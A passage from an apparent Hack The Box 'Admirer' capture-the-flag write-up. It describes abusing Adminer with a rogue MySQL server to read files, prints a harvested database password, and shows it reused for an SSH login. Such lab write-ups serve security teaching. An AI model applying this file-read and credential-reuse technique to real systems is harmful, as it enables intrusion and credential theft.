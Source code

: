 ### 5. Exploit the PHP/SQL application
To carry out the attack, I would need to set up a MySQL server on my machine. Doing this with MariaDB proved to be a huge pain - it would just not connect cleanly. I kept getting the "MySQL Server has gone away" error which indicates a timeout. Eventually I went looking for alternatives and came across a specifically-built python-based rogue MySQL server that can read arbriary files from the client. This allows me to connect to the database using adminer.php by only specifying the ip address and nothing else! The rogue server hits an exception and fails, but it has already retrieved the /etc/passwd file I directed it to download.  
Now that we can retieve arbritary files from the server, I begin pulling files down and checking them.  
Though this slow process of enumeration, I uncover an updated set of credentials for the "waldo" user in index.php
```php
...
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
...
```
Eventually there appears to be nothing else reachable by this route of enumeration. 

### 6. Get a shell
The logical thing to do with the credentials, which were the only thing gained through Adminer, is to use them to try and log into something else. SSH is the first choice.
```bash
kali@kali:~/Desktop/htb/admirer$ ssh waldo@10.10.10.187
waldo@10.10.10.187's password: 
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Fri Jul 10 13:34:46 2020 from 10.10.14.121
waldo@admirer:~$ cat user.txt
```

### 7. Enumerate again
First we check the new mail.
```bash
From root@admirer.htb Wed Apr 22 11:50:01 2020
Return-path: <root@admirer.htb>
Envelope-to: root@admirer.htb
Delivery-date: Wed, 22 Apr 2020 11:50:01 +0100
Received: from root by admirer.htb with local (Exim 4.89)
        (envelope-from <root@admirer.htb>)
        id 1jRCx7-0000XY-Op
        for root@admirer.htb; Wed, 22 Apr 2020 11:50:01 +0100
From: root@admirer.htb (Cron Daemon)
To: root@admirer.htb
Subject: Cron <root@admirer> rm -r /tmp/*
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <PATH=/usr/bin:/bin>
X-Cron-Env: <LOGNAME=root>
Message-Id: <E1jRCx7-0000XY-Op@admirer.htb>
```